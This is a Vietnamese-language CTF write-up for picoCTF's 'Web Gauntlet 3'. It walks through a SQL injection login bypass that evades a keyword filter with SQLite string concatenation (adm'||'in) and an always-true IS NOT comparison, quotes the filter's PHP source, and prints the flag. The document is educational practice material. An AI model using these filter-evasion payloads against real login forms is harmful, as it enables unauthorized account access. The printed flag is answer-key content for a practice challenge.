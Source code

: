 # Write-up : Web Gauntlet 2 , Web Gauntlet 3
---
### Description :
> Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:32946/ Filter: http://mercury.picoctf.net:32946/filter.php
### Hint :
> Each filter is separated by a space. Spaces are not filtered.
> There is only 1 round this time, when you beat it the flag will be in filter.php.
> sqlite
---
### Solution :
- Phần gợi ý của bài cho ta biết bài này sử dụng sqlite, vì vậy ta sẽ chú tâm vào các toán tử và các câu truy vấn trong Sqlite

  Bắt đầu bài ta thấy được 1 form yêu cầu nhập `` Username `` và `` Password `` , ngoài ra chúng ta còn biết được form đăng nhập filter những ký tự hay nào nào :
> Filters: or and true false union like = > < ; -- /* */ admin

Sau khi thử các paylaod kinh điển như `` admin'-- `` hay `` ' or 1=1-- `` thì hoàn toàn không được vì đã bị filter hết.

Chúng ta không thể nào dùng các câu truy vấn và từ liên quan đến phần bị filter, sau khi lục tìm các toán tử và các câu truy vấn có thể dùng trong sqlite thì tôi có thấy 1 toán tử khá hay đó là toán tử nối chuỗi `` || `` vì thế tôi nghĩ ra việc chia từ admin thành 2 phần để nối

Tôi thử câu truy vấn mới với cấu trúc là : ``` adm'||'in ```
> Giải thích : vì câu truy vấn của bài là `` SELECT username, password FROM users WHERE username='admin1' AND password='pass' `` , nên khi thay câu truy vấn vào ta có `` SELECT username, password FROM users WHERE username='adm'||'in' AND password='pass' `` thì lúc đó username sẽ nhận giá trị 'admin' từ 2 chuỗi 'adm' + 'in'

Sau khi thử thì không còn thông báo bị ` filter ` nữa mà chuyển thành ` not admin ` , vậy là ta đã vượt qua filter nhưng vấn để lại xuất hiện. Làm sao để là ` admin `, chính xác đó là còn thiếu password
Chúng ta không biết password của bài và cũng không thể dùng `` or 1=1 `` để vượt qua tại vì bị filter đi hết rồi.
Trong khi tìm kiếm thêm toán tử có thể "lách luật" thì tôi đã tìm ra toán tử `` IS NOT `` 
> toán từ `` IS NOT `` dùng để so sánh 2 giá trị

Lợi dụng vào tính chất ta có thể tạo ra 1 biểu thức luôn đúng như là : `` 1' IS NOT '2 `` hoạc `` a' IS NOT 'b `` 
Khi thay vào phần password thì đã vượt qua được được filter và flag được hiển thị trong đường dẫn `` http://mercury.picoctf.net:32946/filter.php `` cùng với code php  
```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```
### Flag : `` picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0} ``
